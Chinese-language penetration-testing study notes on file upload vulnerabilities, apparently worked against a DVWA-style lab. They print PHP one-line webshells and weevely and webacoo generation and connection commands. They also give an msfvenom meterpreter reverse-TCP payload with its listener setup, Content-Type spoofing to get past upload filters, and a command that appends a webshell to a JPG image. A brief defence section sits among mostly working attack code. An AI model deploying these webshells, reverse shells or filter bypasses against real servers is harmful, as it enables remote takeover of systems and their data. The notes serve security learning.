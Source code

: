 # 文件上传漏洞原理与危害

![image-20210616150914588](D:\BaiduNetdiskDownload\笔记\安全\WEB漏洞概述\文件上传漏洞\文件上传漏洞.assets\image-20210616150914588.png)

文件上传需要关注的点：

1.有没有文件上传功能

2.文件的大小和内容，无限上传文件造成拒绝服务攻击

3.要明白文件的存储位置

危害：

上传webshell控制服务器数据，可以直接接管服务器

# 文件上传漏洞利用

## 检测方法：

1.检测是否可以上传任意文件

2.检查上传限制，是在前端校验还是后端校验

3.检查是否可以知道上传文件的路径

4.检查上传文件是否含有恶意代码

## 写一个PHP一句话木马

php_001.php

```
<?php system($_GET['cmd']); ?>
```

复制文件路径，访问

```
http://daishen.ltd:1111/hackable/uploads/php_001.php
```

![image-20210616154640954](D:\BaiduNetdiskDownload\笔记\安全\WEB漏洞概述\文件上传漏洞\文件上传漏洞.assets\image-20210616154640954.png)



php_002.php

```
<?php @eval($_POST['cmd']); ?>
```

复制文件路径，访问

```
http://daishen.ltd:1111/hackable/uploads/php_002.php
```

php_003.php

```
<? phpinfo(); ?>
```

复制文件路径，访问

```
http://daishen.ltd:1111/hackable/uploads/php_003.php
```

## kali  weevely 自动生成木马

```
weevely generate 123456 php_004.php
```

上传

```
weevely http://daishen.ltd:1111/hackable/uploads/php_004.php 123456
```

![image-20210616160922358](D:\BaiduNetdiskDownload\笔记\安全\WEB漏洞概述\文件上传漏洞\文件上传漏洞.assets\image-20210616160922358.png)

## kali  webacoo  自动生成木马

```
webacoo -g -o php_005.php
```

上传

```
 webacoo -t -u http://daishen.ltd:1111/hackable/uploads/php_005.php
```

![image-20210616161501120](D:\BaiduNetdiskDownload\笔记\安全\WEB漏洞概述\文件上传漏洞\文件上传漏洞.assets\image-20210616161501120.png)

## kali msfconsole  自动生成木马

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.168.101 LPORT=4444 -f raw -o msf_php_webshell.php
```

上传文件

```
../../hackable/uploads/msf_php_webshell.txt
```

打开kali

```
 msfconsole
 use exploit/multi/handler
 set payload php/meterpreter/reverse_tcp
 set LHOST 192.168.168.101
 set LPORT 4444
 show options
 run
 shell
```

访问

```
http://daishen.ltd:1111/hackable/uploads/php_006.php
```

# 文件上传漏洞防御与绕过

## 防御方法

前端校验:检查文件扩展名、content-type

后端校验:检查文件扩展名、检查文件内容，设置文件权限（不允许执行权限）

文件名随机化

沙箱检测

## 绕过

拦截数据包

更改Content-Type: application/octet-stream

image/png

放行

![image-20210616163306549](D:\BaiduNetdiskDownload\笔记\安全\WEB漏洞概述\文件上传漏洞\文件上传漏洞.assets\image-20210616163306549.png)

图片马制作

```
 cat php_004.php >> 123.jpg
```

